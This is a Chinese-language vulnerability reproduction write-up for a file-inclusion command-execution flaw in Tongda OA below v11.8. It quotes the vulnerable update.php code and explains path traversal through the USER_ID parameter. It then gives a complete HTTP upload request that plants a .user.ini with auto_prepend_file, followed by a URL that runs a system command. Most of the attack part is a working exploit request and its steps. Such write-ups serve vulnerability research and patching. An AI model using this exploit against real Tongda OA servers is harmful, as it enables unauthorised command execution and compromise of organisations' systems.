



# 通达OA v11.8 update.php 后台文件包含命令执行漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有PHP语句的文件导致命令执行

## 漏洞影响

<a-checkbox checked>通达OA < v11.8</a-checkbox></br>

## 漏洞复现

这里使用的环境为通达 v11.6版本

出现漏洞的文件为 `webroot/general/hr/manage/staff_info/update.php`

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```


在这里参数 `$USER_ID` 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 `../../../` 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 `.user.ini` 文件来包含其他文件，这里是可以用于包含PHP语句的文件的，所以我们上传文件内容为

```plain
auto_prepend_file=ttt.log
```

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttt.ini"
Content-Type: text/plain

auto_prepend_file=ttt.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 `USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user` 为上传路径

这里我们简单知道了上传方式，那我们就通过 `.user.ini文件` 包含恶意文件


现在已经成功上传了恶意文件

```
 /general/reportshop/workshop/report/attachment-remark/form.inc.php?ttt=ipconfig 
```





<a-checkbox checked>在 v11.6中 上传的位置并没有限定所以可以上传在方便访问的目录(不需要登录)</a-checkbox></br>

<a-checkbox checked>而 v11.8中则有目录名的限制需要目录带有 webroot 和 attachment</a-checkbox></br>





